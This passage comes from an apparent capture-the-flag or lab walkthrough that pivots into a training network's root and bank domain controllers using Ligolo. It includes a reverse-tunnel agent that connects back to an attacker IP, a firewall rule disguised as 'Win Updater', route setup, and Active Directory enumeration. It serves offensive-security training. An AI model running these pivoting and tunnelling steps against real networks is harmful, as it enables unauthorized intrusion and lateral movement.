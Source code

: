 		ip tuntap add user root mode tun ligolo_rdc && ip link set ligolo_rdc up
2. deploy the ligolo agent to the rootdc: we can use the previously configured listener to reach the attacker web server to download it, from the rootdc visit http://10.200.89.21:1180
3. on wrk1 add a rule to the Firewall to allow inbound connection to port 1181

		New-NetFirewallRule -DisplayName 'Win Updater' -Profile 'Domain' -Direction Inbound -Action Allow -Protocol TCP -LocalPort 1181
4. on the wrk1 ligolo session (the one active) add the following listener:

		listener_add --addr 0.0.0.0:1181 --to 127.0.0.1:11601 --tcp
5. on the rootdc start the agent as follows:

		C:\Users\it.supportea\def-exc\agent.exe -connect 10.200.89.21:1181 -ignore-cert
We should recive a new ligolo session on our attacker machine

		[Agent : CORP\it.support@WRK1] » INFO[1857] Agent joined. name="THERESERVE\\it.supportea@ROOTDC" remote="127.0.0.1:44094"

What we have done here is to forward the incoming request from rootdc to the agent on port 1181, then forward it to the proxy (our attacker machine) on the default port 11601. 
Ligolo is really a great tool!
Now in ligolo console switch to the new session and start the tunnel using the following command:

	start --tun ligolo_rdc	
Add route to the bank dc server on our attacker machine:

 	ip route add 10.200.89.101/32 dev ligolo_rdc

### Access bank domain controller
Now we can RDP directly from our attacker machine to the bank dc, using the user <b>it.supportea (domain thereserve.loc)</b>. 
I started to search for domain's host using powershell:

	get-adcomputer -filter *

		DistinguishedName : CN=WORK1,OU=Workstations,DC=bank,DC=thereserve,DC=loc
		DNSHostName       : WORK1.bank.thereserve.loc
		Enabled           : True
		Name              : WORK1
		ObjectClass       : computer
		...
		
		DistinguishedName : CN=WORK2,OU=Workstations,DC=bank,DC=thereserve,DC=loc
		DNSHostName       : WORK2.bank.thereserve.loc
		Enabled           : True
		Name              : WORK2
		ObjectClass       : computer
		...
		
		DistinguishedName : CN=JMP,OU=Servers,DC=bank,DC=thereserve,DC=loc
		DNSHostName       : JMP.bank.thereserve.loc
		Enabled           : True
		Name              : JMP
		ObjectClass       : computer
		...
Apart the bankdc, I found other 3 computer, one named JMP probably a jump box. We can find the IP addresses as follows:
